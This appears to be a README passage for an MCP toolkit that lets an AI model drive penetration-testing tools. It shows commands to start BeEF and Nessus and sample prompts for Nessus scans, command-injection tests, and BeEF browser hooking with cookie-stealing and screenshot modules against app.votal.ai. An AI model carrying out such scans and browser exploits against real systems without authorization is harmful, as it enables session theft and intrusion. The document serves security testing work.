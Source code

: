 ### **Start Services**
```bash
# Start BeEF server
cd ~/tools/beef && ./beef

# Start Nessus service
sudo systemctl start nessusd  # Linux
sudo launchctl load /Library/LaunchDaemons/com.tenablesecurity.nessusd.plist  # macOS

# Access web interfaces
# BeEF: http://localhost:3000/ui/panel
# Nessus: https://localhost:8834
```

## 🔥 **Advanced MCP Function Examples**

### **Professional Nessus Integration**
```
Please run a Nessus vulnerability scan using scan_with_nessus with:
- target: "app.votal.ai"
- scan_template: "basic"
- nessus_url: "https://localhost:8834"
- access_key: "your_access_key"
- secret_key: "your_secret_key"
```

### **Command Injection Testing**
```
Please test for command injection using test_command_injection with:
- target: "https://app.votal.ai/search?q=test"
- level: 2
- technique: "classic"
- timeout: 30
```

### **Browser Exploitation Setup**
```
Please set up browser exploitation using exploit_with_beef with:
- target_url: "https://app.votal.ai"
- beef_server: "http://localhost:3000"
- hook_method: "iframe"
- payload_modules: "get_cookie,screenshot"
```

Use these examples as starting points and adjust parameters based on your specific engagement requirements and target characteristics. 